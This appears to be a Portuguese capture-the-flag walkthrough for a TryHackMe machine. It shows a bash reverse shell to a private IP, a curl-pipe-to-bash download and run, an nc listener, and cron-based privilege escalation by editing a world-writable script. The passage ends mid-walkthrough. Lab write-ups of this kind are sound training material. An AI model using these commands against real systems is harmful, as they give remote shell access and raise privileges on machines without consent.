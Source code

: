 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário 'swagger'

### Situação:
- Existe um arquivo chamado `script.sh` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-swagger user-swagger 184 Jun 1 2023 script.sh
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário 'swagger'**, que tem mais privilégios que o usuário atual (`www-data`).

### Problema:
- Estamos logados como `www-data`, um usuário limitado.
- Executar o script manualmente com `www-data` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `www-data`.

### Solução:
1. Editar o `script.sh` e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   curl http://192.168.100.168:8000/shell_2.sh | bash
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `swagger`, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do 'swagger' executa o script que você editou**.

![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei previlegio do meu propio usuario e consegui, agora so fazer no arq do usuario swagger
---

### Agora vamos alterar o conteudo do arquivo e colocar para ele buscar naquele mesmo servidor python baixar e execuar o shel reverse enquanto escutamos do outro lado 
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)

Adicionamos o comando no arquivo

